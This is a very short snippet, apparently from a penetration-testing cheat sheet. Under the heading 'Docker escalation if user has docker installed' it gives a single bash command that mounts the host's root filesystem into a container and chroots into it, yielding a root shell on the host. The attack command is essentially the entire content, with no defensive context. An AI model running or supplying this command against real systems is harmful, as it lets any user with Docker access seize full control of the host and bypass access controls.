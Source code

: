 # Docker escalation if user has docker installed
```bash
docker run -v /:/mnt --rm -it bash chroot /mnt sh
```
